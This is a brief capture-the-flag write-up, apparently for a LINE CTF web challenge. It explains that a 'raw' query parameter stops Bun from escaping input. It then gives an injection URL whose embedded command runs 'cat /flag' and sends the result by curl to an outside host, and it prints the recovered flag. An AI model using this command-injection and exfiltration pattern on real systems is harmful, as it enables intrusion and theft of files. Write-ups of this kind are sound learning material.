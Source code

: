 # Description

- Use a `raw` to prevent bun from escaping the input.
- ```http://34.146.180.210:3000/chall?url[raw]=`curl%20https://cau.0wn.kr?flag=$(cat%20/flag)```
- **Flag: `LINECTF{f405e3a998df00e4a9e9cc153d353770}`**
`
